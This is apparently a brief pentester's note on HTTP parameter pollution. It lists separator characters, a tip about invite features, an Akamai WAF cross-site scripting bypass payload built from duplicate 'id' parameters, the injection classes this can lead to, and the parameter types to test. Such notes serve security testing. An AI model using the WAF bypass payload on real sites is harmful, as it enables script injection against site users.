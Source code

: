 -> `&` and `;` used to separate the two parameters.

![[http 1.webp]]

Tip 1:- Invite functionality(flooded email)

Tip 2:- Akamai XSS WAF bypass
`?id=1&id=2`
``<input alue="1,2">``
?id="&id=onpointerrawupdate="a=confirm&id=a(1) -> ``<input value="", onpointerrawupdate="a=confirm,a(1)">



CONSEQUENCE 
-> SQL Injection
-> LDAP Injeciton
-> XML Injection
-> XPath Injection
-> Command Injection
-> Open redirect
-> Captcha bypass

PARAMETER TO LOOK FOR 
-> GET parameters
-> POST Parametere
-> COOKIE Parameters

